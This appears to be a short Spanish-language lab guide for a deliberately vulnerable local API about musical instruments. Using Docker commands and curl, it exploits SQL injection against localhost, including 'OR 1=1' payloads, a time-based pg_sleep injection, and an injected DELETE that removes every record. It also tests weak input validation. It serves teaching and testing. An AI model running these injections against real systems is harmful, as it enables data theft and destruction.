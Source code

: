 Asegúrate de que tu docker-compose.yml esté usando el bind mount (como lo dejamos).

Reconstruye y levanta los contenedores:

Bash

docker compose down -v --rmi all
docker compose up --build -d
Usa herramientas como curl o Postman/Insomnia para intentar explotar las vulnerabilidades.

Inyección SQL (GET by ID):

Bash

# Intentará obtener un instrumento, pero la inyección puede listar todos o causar un error.
curl -X GET http://localhost:8080/instruments/1%20OR%201=1%20--
(Asegúrate de codificar la URL, %20 para espacio, -- para comentarios SQL)
También puedes probar con 1; SELECT pg_sleep(5); -- para un ataque de inyección SQL de tiempo.

Inyección SQL (GET All con filtro):

Bash

curl -X GET "http://localhost:8080/instruments?name=' OR 1=1 --"
Inyección SQL (DELETE):

Bash

# ¡CUIDADO! Esto intentará eliminar registros.
curl -X DELETE http://localhost:8080/instruments/1%20OR%201=1%20--
Validación de entrada débil (POST):

Bash

curl -X POST -H "Content-Type: application/json" -d '{"name": "", "description": "Instrumento sin nombre", "price": 0}' http://localhost:8080/instruments